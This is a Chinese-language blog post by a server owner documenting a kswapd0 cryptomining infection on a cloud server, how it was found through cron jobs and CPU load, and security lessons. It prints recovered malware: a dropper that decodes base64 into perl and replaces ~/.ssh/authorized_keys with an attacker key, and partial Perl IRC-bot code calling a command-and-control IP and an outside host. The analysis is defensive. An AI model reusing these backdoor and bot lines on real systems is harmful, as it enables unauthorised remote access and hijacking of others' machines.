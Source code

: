 ```yaml
---
title: "Kswapd0挖矿病毒记录"
date: 2022-03-07
draft: false
image: "../../post/服务器病毒/qq_pic_merged_1646629112550.jpg"
---
```


# kswapd0 挖矿病毒调查

## 背景

![Alt](../../post/服务器病毒/qq_pic_merged_1646629081866.jpg)

3 月 6 日收到了腾讯云的异地异常登入报告，马上又收到了检测出木马的报告

![Alt](../../post/服务器病毒/qq_pic_merged_1646629112550.jpg)

马上怀疑是服务器被植入了木马程序，但是时间比较晚了，先把服务器关机了然后睡觉

我也没有急着重装系统，有点贪心，想看看木马长什么样，也顺便学习一下怎么清理木马程序，怎么分析受损情况，毕竟我现在是一个个人的服务器还没有对外提供服务，可以随便重装系统，但是如果是一个网站的服务器那么肯定是不能随便重装的。

但是这个木马非常狡猾，我 3 月 6 日一天也没有找出来，也请了网安的同学来帮忙，外加腾讯给我的报错文件，我什么没有找到，一切看起来都非常正常，各种日志都没有一点痕迹连操作记录都没有，然后我就又把服务器开着等了一天。

![Alt](../../post/服务器病毒/qq_pic_merged_1646629166670.jpg)

## 出现异常

很快，第二天凌晨又被警告异地登入了，但是我当时还在睡觉没处理，早上起来一开服务器发现问题大了。

![Alt](../../post/服务器病毒/QQ图片20220307131114.jpg)

![Alt](../../post/服务器病毒/QQ图片20220307131210.png)

## 开始调查

有个程序把我的cpu直接占满了，我知道它出现了，我直接 kill 了这个程序，然后在通过查看系统的定期任务找到了它的文件，应该是只有部分了，它的很多安装步骤应该是被自己清理掉了。

![Alt](../../post/服务器病毒/Snipaste_2022-03-07_10-40-46.png)

很明显它有一些定时任务，而且我每一次开机都会更新一些木马的程序，非常难找，而且输出全部重定向到了空，所以没有运行日志，当然也它没有很过分的写 shell 反弹，否在我恐怕也不能直接发现这些定期运行的脚本了。

然后根据上面运行的脚本目录，我找到了它的一些文件

![Alt](../../post/服务器病毒/Snipaste_2022-03-07_10-42-11.png)

![ALt](../../post/服务器病毒/Snipaste_2022-03-07_10-42-35.png)

![Alt](../../post/服务器病毒/Snipaste_2022-03-07_10-42-55.png)

![Alt](../../post/服务器病毒/Snipaste_2022-03-07_10-44-39.png)

![Alt](../../post/服务器病毒/Snipaste_2022-03-07_10-46-04.png)

![Alt](../../post/服务器病毒/Snipaste_2022-03-07_10-51-52.png)

里面有很多脚本程序，比如启动挖矿程序，为了躲避产生日志的脚本，还有一些判断系统硬件的，还有脚本杀死别的挖矿软件……，还有删除一些文件的（所以应该丢失了不少关键文件）

当然最重要的还是要看一下挖矿程序(省略)

```shell
#!/bin/sh
nohup ./stop>>/dev/null &
sleep 5
echo "ZXZhbCB1bnBhY2sgd......" | base64 --decode | perl
cd ~ && rm -rf .ssh && mkdir .ssh && echo "ssh-rsa AAAAB3NzaC1yc2EAAAABJQAAAQEArDp4cun2lhr4KUhBGE7VvAcwdli2a8dbnrTOrbMz1+5O73fcBOx8NVbUT0bUanUV9tJ2/9p7+vD0EpZ3Tz/+0kX34uAx1RV/75GVOmNx+9EuWOnvNoaJe0QXxziIg9eLBHpgLMuakb5+BgTFB+rKJAw9u9FSTDengvS8hX1kNFS4Mjux0hJOK8rvcEmPecjdySYMb66nylAKGwCEE6WEQHmd1mUPgHwGQ0hWCwsQk13yCGPK5w6hYp5zYkFnvlC8hGmd4Ww+u97k6pfTGTUbJk14ujvcD9iUKQTTWYYjIIu5PmUux5bsZ0R4WFwdIe6+i6rBLAsPKgAySVKPRK+oRw== mdrfckr">>.ssh/authorized_keys && chmod -R go= ~/.ssh
```

有一个用 `perl` 写的程序还有一个 `ssh` 远程登入

因为是 `base64` 压缩，所以通过解码并且将 `perl` 加入输出命令得到了源码（部分）

```perl
my $processo = 'rsync';

$servidor='45.9.148.99' unless $servidor;
my $porta='443';
my @canais=("#007");
my @adms=("polly","molly");
my @auth=("localhost");

my $linas_max=6;
my $sleep=3;

my $nick = getnick();
my $ircname = getnick();
my $realname = (`uname -a`);

my $acessoshell = 1;
my $prefixo = "! ";
my $estatisticas = 0;
my $pacotes = 1;

my $VERSAO = '0.2a';

$SIG{'INT'} = 'IGNORE';
$SIG{'HUP'} = 'IGNORE';
$SIG{'TERM'} = 'IGNORE';
$SIG{'CHLD'} = 'IGNORE';
$SIG{'PS'} = 'IGNORE';

use IO::Socket;
use Socket;
use IO::Select;
chdir("/");
$servidor="$ARGV[0]" if $ARGV[0];
$0="$processo"."\0";
my $pid=fork;
exit if $pid;
die "Problema com o fork: $!" unless defined($pid);

my %irc_servers;
my %DCC;
my $dcc_sel = new IO::Select->new();

sub getnick {
  return "x".int(rand(9000)).int(rand(9000));
}


sub getident {
  my $retornoident = &_get("http://www.minpop.com/sk12pack/idents.php");
  my $identchance = int(rand(99000));
  if ($identchance > 30) {
     return $nick;
  } else {
     return $retornoident;
  }
  return $retornoident;
}

sub getname {
  my $retornoname = &_get("http://www.minpop.com/sk12pack/names.php");
  return $retornoname;
}

sub getident2 {
        my $length=shift;
        $length = 3 if ($length < 3);

        my @chars=('a'..'z','A'..'Z','1'..'9');
        foreach (1..$length)
        {
                $randomstring.=$chars[rand @chars];
        }
        return $randomstring;
}
......

```

其中有一个很明显的 ip 地址 `45.9.148.99` 通过 `IP` 地址定位，发现是在荷兰，臭名昭著~

![Alt](../../post/服务器病毒/Snipaste_2022-03-07_12-41-06.png)

还有一个主文件 `kwsapd0` 但是是经过特殊加密的，暂时不会解码的手段，不过根据网上的查询多半是 `XMRig` 编译的 `Linux` 平台**门罗币**挖矿木马了。

这次的木马调查也只能到此结束了，后面深入的事情也不是我有能力去做的了，只是很讨厌这种行为，通过木马挖矿就是小偷行为，偷别人的算力，非常可耻！

## 总结

自己的服务器要小心，不要被别人拿去白打工了，密码最好复杂一点，各个用户的都要复杂一点，因为不是 `sudo`用户也有可能被入侵，密码最好定期跟换，对于端口开放要谨慎，要限制访问 `IP`。

这次的木马时间算是给了我一个教训吧，辛亏服务器内数据不多，损失也不算大，但是以后还是要多加小心。
